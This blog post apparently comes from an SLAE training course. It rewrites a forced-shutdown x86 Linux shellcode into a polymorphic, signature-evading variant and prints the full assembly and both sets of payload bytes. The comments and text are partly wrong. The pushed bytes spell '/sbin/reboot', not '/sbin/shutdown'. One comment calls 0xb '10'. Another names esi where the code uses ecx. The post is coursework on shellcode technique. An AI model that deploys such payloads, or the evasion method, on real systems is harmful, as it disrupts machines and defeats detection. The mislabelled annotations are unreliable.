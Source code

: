 ```yaml
---
layout: post
title: SLAE Exercise 6 - Polymorphic Shellcode Part 3 Shutdown
subtitle: Polymorphic Shellcode Part 3
tags: [SLAE]
---
```


Overview
======

The final chosen shellcode from shell-storm is the 'shutdown' shellcode. This can be found [here](http://shell-storm.org/shellcode/files/shellcode-831.php). This shellcode shuts down the system it is ran on, by utilising the 'execve' syscall with the 'shutdown' command found within sbin. 

The original code can be seen fully commented below:

```
global _start			

section .text
_start:

;int execve(const char *filename, char *const argv[],char *const envp[]);

xor eax, eax	; clear eax
push eax	; push eax to stack (0)
push 0x746f6f62	; push /sbin/shutdown to stack
push 0x65722f6e ;
push 0x6962732f ;
mov ebx, esp	; stack pointer to ebx pointing to /sbin/shutdown
push eax	; push eax to stack (0)
push word 0x662d 	; pushw - push '-f' to stack
mov esi, esp	; move stack pointer to esi pointing to -f on the stack
push eax	; push eax to stack (0)
push esi	; push esi to stack, pointer to -f
push ebx	; push ebx, /sbin/shutdown
mov ecx, esp	; put stack pointer into ecx for struct parameter
mov al, 0xb	; move 10 to eax for the execve syscall
int 0x80	;interupt to syscall
	
```

Using various techniques, this code was altered to create a polymorphic version of it. This code can be seen below:

```
global _start			

section .text
_start:

;int execve(const char *filename, char *const argv[],char *const envp[]);

xor edx, edx   ; clearing the edx register
push edx       ; push edx to stack (0)

mov eax, 0x746f6f62        ; move /sbin/shutdown to eax and push eax bit by bit
push eax
mov eax, 0x65722f6e
push eax
mov eax, 0x6962732f
push eax
mov ebx, esp   ; stack pointer to ebx pointing to /sbin/shutdown
push edx       ; push edx to stack (0)

push word 0x662d ; pushw - push '-f' to stack
mov ecx, esp   ; move stack pointer to esi pointing to -f on the stack
push edx       ; push edx to stack (0)
push ecx       ; push ecx to stack, pointer to -f
push ebx       ; push ebx, /sbin/shutdown
mov ecx, esp   ; put stack pointer into ecx for struct parameter

mul edx	       ; edx (0) * ax, clearing eax register
mov al, 0xb    ; move 10 to eax for the execve syscall
int 0x80       ; interupt to syscall
```

Again, with this shellcode, it was a bit more difficult to rewrite it as was done with the first shellcode, so other techniques were used to make this code polymorphic. Due to this however, the code was bloated a bit. Different techniques were used to change this shellcode, including changing what registers were used, pushing data to the stack using registers and clearing registers differently. 

When compiled and the extracted, the shellcode appears as follows:

Original

```
"\x31\xc0\x50\x68\x62\x6f\x6f\x74\x68\x6e\x2f\x72\x65\x68\x2f\x73\x62\x69\x89\xe3\x50\x66\x68\x2d\x66\x89\xe6\x50\x56\x53\x89\xe1\xb0\x0b\xcd\x80"
```

**Polymorphic**

```
"\x31\xd2\x52\xb8\x62\x6f\x6f\x74\x50\xb8\x6e\x2f\x72\x65\x50\xb8\x2f\x73\x62\x69\x50\x89\xe3\x52\x66\x68\x2d\x66\x89\xe1\x52\x51\x53\x89\xe1\xf7\xe2\xb0\x0b\xcd\x80"
```

As can be seen, the polymorphic shellcode greatly varies from the original and is less than 150% of the size of the original. 
